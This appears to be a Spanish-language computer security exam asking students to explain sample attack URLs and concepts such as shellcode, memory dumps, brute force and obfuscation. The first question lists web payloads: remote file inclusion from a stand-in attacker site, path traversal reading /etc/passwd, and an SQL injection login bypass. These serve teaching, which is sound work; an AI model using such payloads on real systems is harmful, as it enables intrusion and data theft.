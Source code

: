 # Examen segundo informe

1. ¿Qué significan lo siguiente?
```URL
http://vulnerable_host/preview.php?config[path_src_include]=https:///photo.gif?
```
```URL
http://vulnerable_host/preview.php?file=../../../../etc/passwd
http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page
```
```URL
http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&password=1'%20or%20'1'%20=%20'1
```
2.    Cómo controlas que un usuario ejecuta un programa que no puede ejecutar.

3.    Cómo verificas que un fichero .dll no se ha modificado.

4.    ¿Qué es un Shellcode?

5.    ¿Qué puedes obtener en un volcado de memoria?

6.    Explica la fuerza bruta.

7.    Explica la ofuscación.
